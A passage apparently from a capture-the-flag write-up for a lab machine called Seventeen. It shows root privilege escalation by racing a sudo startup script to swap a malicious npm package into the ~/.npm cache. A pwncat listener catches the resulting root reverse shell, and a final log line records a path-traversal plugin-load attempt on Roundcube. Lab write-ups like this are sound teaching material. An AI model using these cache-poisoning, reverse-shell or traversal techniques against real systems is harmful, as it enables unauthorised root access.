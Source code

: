 ```
package/test/console-fallback-test.js
package/test/level-setting-test.js
package/test/test-helpers.js
package/test/default-level-test.js
package/test/.jshintrc
package/test/test-qunit.js
package/test/local-storage-test.js
package/test/node-integration.js
package/README.md
```

With the **third** SSH session watch for the deletion of the package:
```
kavi@seventeen:~$ watch -n 1 ls ~/.npm
```

As soon as it gets deleted copy your malicous packet folder into the .nom folder with the **second** session:

```
kavi@seventeen:~/repack$ cp -R . ~/.npm/loglevel/1.8.0 
```

Back on the **first** session restart the script:
```
kavi@seventeen:/opt/app$ sudo /opt/app/startup.sh 
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@1.8.0 
└── mysql@2.18.1 

[+] Starting the app
```
Catch the shell and profit!
```
┌──(kali㉿kali)-[~]
└─$ /home/kali/.local/bin/pwncat-cs -lp 4242
[00:05:49] Welcome to pwncat 🐈!                                                                                                             __main__.py:164
[00:15:02] received connection from 10.10.11.165:56244                                                                                            bind.py:84
[00:15:03] 0.0.0.0:4242: upgrading from /bin/dash to /bin/bash                                                                                manager.py:957
           10.10.11.165:56244: registered new host w/ db                                                                                      manager.py:957
(local) pwncat$ cat /root/root.txt
[00:15:13] error: cat: unknown command                                                                                                        manager.py:957
(local) pwncat$                                                                                                                                             
(remote) root@seventeen:/opt/app# cat /root/root.txt
```


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)